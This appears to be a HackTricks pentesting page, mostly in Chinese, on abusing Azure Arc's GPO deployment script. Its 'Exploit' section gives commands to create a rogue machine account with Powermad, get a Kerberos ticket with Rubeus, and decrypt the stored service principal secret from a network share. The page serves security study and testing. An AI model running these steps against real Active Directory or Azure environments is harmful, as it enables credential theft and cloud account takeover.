 # Az - Arc vulnerable GPO Deploy Script

{{#include ../../../banners/hacktricks-training.md}}

### Identifying the Issues

Azure Arc 允许通过组策略对象方法将新的内部服务器（加入域的服务器）集成到 Azure Arc 中。为此，Microsoft 提供了一个部署工具包，用于启动入驻程序。在 ArcEnableServerGroupPolicy.zip 文件中，可以找到以下脚本：DeployGPO.ps1、EnableAzureArc.ps1 和 AzureArcDeployment.psm1。

当执行 DeployGPO.ps1 脚本时，它会执行以下操作：

1. 在本地域中创建 Azure Arc 服务器入驻 GPO。
2. 将 EnableAzureArc.ps1 入驻脚本复制到为入驻过程创建的指定网络共享中，该共享还包含 Windows 安装程序包。

运行此脚本时，系统管理员需要提供两个主要参数：**ServicePrincipalId** 和 **ServicePrincipalClientSecret**。此外，它还需要其他参数，例如域、托管共享的服务器的 FQDN 和共享名称。还必须向脚本提供租户 ID、资源组和其他必要信息等详细信息。

在指定共享的 AzureArcDeploy 目录中使用 DPAPI-NG 加密生成一个加密的秘密。加密的秘密存储在名为 encryptedServicePrincipalSecret 的文件中。可以在 DeployGPO.ps1 脚本中找到证据，其中通过调用 ProtectBase64 以 $descriptor 和 $ServicePrincipalSecret 作为输入来执行加密。描述符由域计算机和域控制器组 SID 组成，确保 ServicePrincipalSecret 只能由域控制器和域计算机安全组解密，如脚本注释中所述。
```bash
# Encrypting the ServicePrincipalSecret to be decrypted only by the Domain Controllers and the Domain Computers security groups
$DomainComputersSID = "SID=" + $DomainComputersSID
$DomainControllersSID = "SID=" + $DomainControllersSID
$descriptor = @($DomainComputersSID, $DomainControllersSID) -join " OR "
Import-Module $PSScriptRoot\AzureArcDeployment.psm1
$encryptedSecret = [DpapiNgUtil]::ProtectBase64($descriptor, $ServicePrincipalSecret)
```
### Exploit

我们有以下条件：

1. 我们已经成功渗透了内部网络。
2. 我们有能力在 Active Directory 中创建或控制计算机帐户。
3. 我们发现了一个包含 AzureArcDeploy 目录的网络共享。

在 AD 环境中获取计算机帐户有几种方法。最常见的方法之一是利用计算机帐户配额。另一种方法涉及通过易受攻击的 ACL 或各种其他错误配置来破坏计算机帐户。
```bash
Import-MKodule powermad
New-MachineAccount -MachineAccount fake01 -Password $(ConvertTo-SecureString '123456' -AsPlainText -Force) -Verbose
```
一旦获得机器账户，就可以使用该账户进行身份验证。我们可以使用带有 netonly 标志的 runas.exe 命令，或者使用 Rubeus.exe 进行票证传递。
```bash
runas /user:fake01$ /netonly powershell
```

```bash
.\Rubeus.exe asktgt /user:fake01$ /password:123456 /prr
```
通过将计算机帐户的 TGT 存储在内存中，我们可以使用以下脚本解密服务主体密钥。
```bash
Import-Module .\AzureArcDeployment.psm1

$encryptedSecret = Get-Content "[shared folder path]\AzureArcDeploy\encryptedServicePrincipalSecret"

$ebs = [DpapiNgUtil]::UnprotectBase64($encryptedSecret)
$ebs
```
另外，我们可以使用 [SecretManagement.DpapiNG](https://github.com/jborean93/SecretManagement.DpapiNG)。

此时，我们可以从存储在与 encryptedServicePrincipalSecret 文件相同的网络共享上的 ArcInfo.json 文件中收集连接到 Azure 所需的其余信息。该文件包含以下详细信息：TenantId、servicePrincipalClientId、ResourceGroup 等。凭借这些信息，我们可以使用 Azure CLI 以被攻陷的服务主体身份进行身份验证。

## References

- [https://xybytes.com/azure/Abusing-Azure-Arc/](https://xybytes.com/azure/Abusing-Azure-Arc/)

{{#include ../../../banners/hacktricks-training.md}}
